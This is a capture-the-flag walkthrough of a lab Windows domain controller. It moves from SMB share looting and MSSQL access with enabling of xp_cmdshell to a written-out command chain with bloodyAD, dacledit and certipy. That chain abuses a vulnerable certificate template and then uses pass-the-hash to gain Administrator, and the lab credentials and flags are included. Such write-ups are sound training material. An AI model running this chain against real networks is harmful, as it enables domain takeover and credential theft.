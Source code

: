 ```yaml
---
sticker: emoji//0032-fe0f-20e3
---
```

# ENUMERATION
---

## OPEN PORTS
---



| IP ADDRESS  |
| ----------- |
| 10.10.11.51 |


| PORT     | SERVICE      |
| -------- | ------------ |
| 53/tcp   | domain       |
| 88/tcp   | kerberos-sec |
| 135/tcp  | msrpc        |
| 139/tcp  | netbios-ssn  |
| 389/tcp  | ldap         |
| 445/tcp  | microsoft-ds |
| 464/tcp  | kpasswd5     |
| 593/tcp  | ncacn_http   |
| 636/tcp  | ssl/ldap     |
| 1433/tcp | ms-sql-s     |
| 3268/tcp | ldap         |
| 3269/tcp | ssl/ldap     |
| 5985/tcp | http         |

We got a lot of open ports, this is a Windows machine, let's start reconnaissance.

# RECONNAISSANCE
---

At first, we are already given some credentials:

```ad-note

`rose`:`KxEPkKe6R8su`
```

We can start with some basic SMB enumeration:

```ad-hint
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114171402.png)
We got a few shares, most interesting one would be `Accounting Deparment` one, let's take a look at it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114171518.png)

We have two files, let's download them both and check the contents:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114172631.png)

Since they are zip files, we need to unzip them and review the contents:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114172708.png)

After an extensive search, we can see that `xl/sharedStrings.xml` is a file that contains credentials to `mssql`, we can connect using the `mssqlclient.py` script from [impacket](https://github.com/fortra/impacket)
```

# EXPLOITATION
---

Let's connect:

```ad-hint
##### Used
---
`mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114173718.png)

We can now begin with enumeration, for this, we can use help to check which commands are available:
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114174132.png)

It seems like we can enable some sort of shell, I asked chatgpt about it and it said I must follow these steps:

1. `enable_xp_cmdshell`
2. `RECONFIGURE;`
3. `EXEC xp_cmdshell 'command';`

Once I did that, this happened:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114174247.png)
We get some sort of `RCE`, let's try to enumerate `C:\` folder:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114174329.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114174556.png)
We got an user: `ryan`, tried to check the contents but it was empty, we can follow another route, we already know we have a `SQL2019` directory, there must be a SQL configuration file we can read and get some credentials:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114174929.png)

That's right, let's read the configuration file:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114174959.png)


We got credentials for another user.
```


```ad-note
`sql_svc`:`WqSZAF6CysDQbGb3`
```


Since we also know the domain is called `SEQUEL`, we can use `evil-winrm` to log in:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114193709.png)

We are unable to log with those credentials, but remember we have another user, `ryan`, let's try with that username:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114193750.png)

And we're in, let's read `user.txt`:

```ad-important
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250114193939.png)

User: `1c3847c8cc30b9afd12ff6c2bc86f0db`
```

Let's begin PRIVESC.

# PRIVILEGE ESCALATION
---


For privilege escalation, we can use tools like `bloodyAD`, `dacledit.py` and `certipy-ad` (I used Kali Linux in this part), let's follow these steps:

```ad-hint
1. `python3 bloodyAD.py --host DC01.sequel.htb -d SEQUEL.HTB -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan`
2. `dacledit.py -action 'write' -rights 'FullControl' -principal ryan -target ca_svc SEQUEL.HTB/ryan:'WqSZAF6CysDQbGb3'`
3. `certipy-ad shadow auto -u ryan@SEQUEL.HTB -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc`
4. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout`
5. `KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51`
6. `certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target dc01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@SEQUEL.HTB -ns 10.10.11.51 -dns 10.10.11.51 -debug`
7. `certipy-ad auth -pfx administrator_10.pfx -dc-ip 10.10.11.51`
8. `evil-winrm -i 10.10.11.51 -u 'administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'`
```


So, explanation of this PRIVESC is that we're abusing the CA:

```ad-important
- Identified that the `Certificate Authority (CA)` has a misconfiguration where a vulnerable template called `DunderMifflinAuthentication` is available. This template is part of the certificate services and allows for certain users (like `Domain Admins`) to request certificates with **elevated privileges**.
- The vulnerability identified was that `Cert Publishers` (a group with a dangerous permission set) have access to request certificates. **Cert Publishers** are not typically expected to have these rights, which opens the door for attackers.
```

With this, we are able to obtain a certificate as administrator, thus, obtaining the hash for Admin user, making us able to perform [Pass the hash](https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack)
Like that, we can read root flag:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250115141448.png)

```ad-important
Root: `63404c844597a9eef0c7a440b65564a3`
```

